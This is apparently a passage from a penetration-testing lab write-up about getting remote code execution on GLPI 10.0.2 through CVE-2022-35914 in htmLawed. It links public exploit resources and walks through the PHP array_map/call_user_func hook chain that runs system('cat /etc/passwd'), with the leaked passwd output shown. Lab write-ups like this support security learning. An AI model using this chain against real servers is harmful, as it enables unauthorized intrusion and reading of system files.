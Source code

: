There are some interesting outputs. Let's start with /files directory

![glpi-2](../contentImages/glpi/glpi-2.webp)

We should just play around for a while. Then, I found under _cache:

![glpi-2](../contentImages/glpi/glpi-2.png)

So we can clearly argue that we have glpi version 10.0.2. 


I immediately started to google for cve. Then I found this Github Repo.

> https://github.com/0xGabe/CVE-2022-35914

Apparently, there exists RCE vector. But we need htmlLawedTest.php. Visiting the /vedor folder which we should have to execute cve:

![glpi-3](../contentImages/glpi/glpi-3.png)

Here is the tricky part. I couldn't get RCE even if I tried to use the CVE above.


I thought this might be rabbit hole, but there was absolutely no vector except this one. So I started to download the php file and look into the source code.


Then, I realized that I have to modify CVE manually, because clearly the execution logic was slightly different.


**BUT THIS IS FAR BEYOND FROM OSCP**


So, I used a resource from internet:


> https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/


The logic behind this manual exploit is following:

```
# reference reminder of htmLawed's original hook function call
$C['hook']($t, $C, $S);

# translated to our situation
array_map('call_user_func', $C, $S);

# contents of our arrays parsed from the POST req payload
$C = ['array_map', 'system'];
$S = [null, 'cat /etc/passwd'];

  # first iteration of array_map
  call_user_func('array_map', null);

    # output; note that this is a warning, not an error, thus will not halt execution
    PHP Warning:  Uncaught ArgumentCountError: array_map() expects at least 2 arguments, 1 given

  # second iteration of array_map
  call_user_func('system', 'cat /etc/passwd');

    # output (RCE!)
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    ...
```
